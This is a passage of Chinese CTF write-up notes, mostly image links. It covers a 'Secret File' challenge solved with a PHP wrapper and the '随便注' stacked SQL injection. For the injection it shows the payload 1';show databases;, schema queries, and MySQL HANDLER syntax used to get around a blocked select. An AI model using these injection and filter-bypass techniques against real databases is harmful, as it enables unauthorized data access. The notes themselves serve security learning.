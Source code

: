 ![image-20250501204428482](D:\ctf wp\161-200.assets\image-20250501204428482.png)

![image-20250501205819089](D:\ctf wp\161-200.assets\image-20250501205819089.png)内联执行，就是将反引号内命令的输出作为输入执行：

## 197.[极客大挑战 2019]Secret File

考点是查看源代码以及自动跳转拦截![image-20250501224838031](D:\ctf wp\161-200.assets\image-20250501224838031.png)

![image-20250501224914485](D:\ctf wp\161-200.assets\image-20250501224914485.png)

php伪协议直接攻克

## 198.[强网杯 2019]随便注

### 

![image-20250501230131025](D:\ctf wp\161-200.assets\image-20250501230131025.png)

![image-20250501231855907](D:\ctf wp\161-200.assets\image-20250501231855907.png)

![image-20250501232118310](D:\ctf wp\161-200.assets\image-20250501232118310.png)

1';show databases; 

![image-20250501232732918](D:\ctf wp\161-200.assets\image-20250501232732918.png)

show tables；

![image-20250501232926897](D:\ctf wp\161-200.assets\image-20250501232926897.png)

show columns from `words`;(有反引号)

![image-20250501234322825](D:\ctf wp\161-200.assets\image-20250501234322825.png)

select被过滤，第一种：**hander语句代替select语句。**　

　　语法结构：
　　　　HANDLER tbl_name OPEN [ [AS] alias]
　　　　HANDLER tbl_name READ index_name { = | <= | >= | < | > } (value1,value2,...)
　　　　[ WHERE where_condition ] [LIMIT ... ]
　　　　HANDLER tbl_name READ index_name { FIRST | NEXT | PREV | LAST }
　　　　[ WHERE where_condition ] [LIMIT ... ]
　　　　HANDLER tbl_name READ { FIRST | NEXT }
　　　　[ WHERE where_condition ] [LIMIT ... ]
　　　　HANDLER tbl_name CLOSE

　　　　解释：通过handler语句查询users表的内容
　　　　handler users open as yunensec; #指定数据表进行载入并将返回句柄重命名
　　　　handler yunensec read first; #读取指定表/句柄的首行数据
　　　　handler yunensec read next; #读取指定表/句柄的下一行数据
　　　　handler yunensec read next; #读取指定表/句柄的下一行数据
　　　　...
　　　　handler yunensec close; #关闭句柄
